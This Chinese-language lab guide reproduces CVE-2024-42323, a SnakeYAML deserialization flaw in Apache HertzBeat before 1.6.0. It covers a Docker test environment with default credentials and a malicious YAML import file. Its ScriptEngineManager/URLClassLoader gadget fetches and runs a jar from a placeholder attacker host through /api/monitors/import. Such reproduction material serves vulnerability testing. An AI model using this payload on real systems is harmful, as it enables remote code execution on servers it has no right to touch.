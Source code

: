 # Apache-HertzBeat SnakeYaml反序列化漏洞(CVE-2024-42323)

Apache HertzBeat 是开源的实时监控工具。受影响版本中由于使用漏洞版本的 SnakeYAML 解析用户可控的 yaml 文件，经过身份验证的攻击者可通过 /api/monitors/import、/api/alert/defines/import 接口新增监控类型时配置恶意的 yaml 脚本远程执行任意代码。

影响范围：

* Apache HertzBeat < 1.6.0

参考链接：

* https://forum.butian.net/article/612
* https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
* https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md

## 漏洞环境

运行漏洞环境:

```
docker-compose up -d 
```

运行完成后，将启动一个`HertzBeat 1.4.4`版本的服务，服务开启之后，访问`http://your-ip:1157/dashboard`即可查看`HertzBeat`的登录界面，默认密码：admin/hertzbeat

## 漏洞复现

选择任何监控点击导入监控：

![image-20250225144319776](1.png)

修改上传yaml文件中的value值：

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```

`/api/monitors/import`可以触发SnakeYaml反序列化漏洞

* 需要在`jdk11`环境下编译`https://github.com/fei9747/yaml-payload/`项目，生成利用`payload`
* example : 这里生成的`payload`执行的本地命令为: `touch /tmp/success`.

成功执行代码

![image-20250225145141924](2.png)

容器内部已成功创建`success`文件：![image-20250225145052690](3.png)
